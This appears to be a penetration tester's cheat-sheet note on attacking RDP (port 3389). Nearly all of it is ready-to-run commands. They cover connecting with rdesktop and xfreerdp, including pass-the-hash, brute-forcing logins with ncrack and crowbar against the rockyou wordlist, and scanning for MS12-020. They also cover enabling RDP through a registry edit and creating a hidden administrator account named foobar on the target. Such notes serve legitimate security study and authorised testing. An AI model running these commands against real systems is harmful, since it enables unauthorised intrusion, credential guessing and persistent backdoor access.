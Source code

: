 Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

![[Pasted image 20220516171239.png]]

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

Connect with share:
```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /v:TARGET /drive:kali,/home/kali/Desktop/
```

#### xfreerdp
```bash - kali
xfreerdp /v:$TARGET -sec-nla /u:""
```

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET
```

#### nmap
```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

#### ncrack
```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

#### crowbar
```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```

### Enabling RDP
```command prompt - kali
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Add a new user to Admin, good for RDP
```command prompt - kali
net user foobar Pass123 /add
```

```command prompt - kali
net localgroup Administrators foobar /add
```

```command prompt - kali
sc config TermService start=auto
```

```command prompt - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

See also:
[[Crowbar]]